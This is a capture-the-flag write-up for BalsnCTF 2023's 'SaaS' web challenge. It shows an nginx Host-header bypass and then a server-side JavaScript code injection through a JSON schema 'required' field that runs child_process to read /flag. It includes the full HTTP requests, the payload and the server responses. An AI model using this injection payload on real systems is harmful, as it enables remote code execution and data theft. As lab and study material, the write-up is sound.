

### SaaS - balsnctf 2023 - web



### Running the challenge locally

```
docker-compose up -d
```

You can now access the challenge at http://localhost:8787/

### Writeup

Looking at default.conf we have the following:
```
server {
    listen 80 default_server;
    return 404;
}
server {
    server_name *.saas;
    if ($http_host != "easy++++++") { return 403 ;}
    location ~ {
      proxy_pass http://backend:3000;
    }
}
```

To access the backend server we need to make the server name end in .saas and the host be easy++++++. To do this we can send the following HTTP request to the server:
```
GET http://.saas/ HTTP/1.1
Host: easy++++++
[...]
```
The server now responds with the following:
```
HTTP/1.1 200 OK
[...]

{"pong":"hi"}
```

Now taking a look at index.js we have two endpoints to explore, /register and /whowilldothis/:uid . With register we can provide a json validation schema that later will be used at /whowilldothis/:uid . After researching a bit about fast-json-stringify-compiler I've stumbled uppon the following report:
- https://hackerone.com/reports/532667
  
So I went for the Server Side JavaScript Code Injection. I've used the required property of the schema so we could get the result of the code injection reflected in the error. To exploit this vulnerability first we need to upload the malicious schema using the register endpoit:
```
POST http://.saas/register HTTP/1.1
Host: easy++++++
[...]
Content-Type: application/json

{
 "type": "object",
 "properties": {
   "Hello": {
     "type": "string"
    }
  },
 "required": ["'+(function(){return process.mainModule.require('child_process').spawnSync('cat', ['/flag']).stdout;})()+'"]
}
```
The server sends the following response:
```
HTTP/1.1 200 OK
[...]

{"route":"/whowilldothis/410efeff-b5d4-466c-9e6b-93407e6a4774"}
```
Now we can access this endpoint and retrieve the flag:
```
GET http://.saas/whowilldothis/410efeff-b5d4-466c-9e6b-93407e6a4774 HTTP/1.1
Host: easy++++++
[...]
```
The server responded with the following:
```
HTTP/1.1 500 Internal Server Error
[...]

{"statusCode":500,"error":"Internal Server Error","message":"\"BALSN{N0t_R3al1y_aN_u3s_Ca53}\n\" is required!"}
```

### Author source code and solution

- https://github.com/cjiso1117/My-CTF-Challenges/tree/main/2023-BalsnCTF/SaaS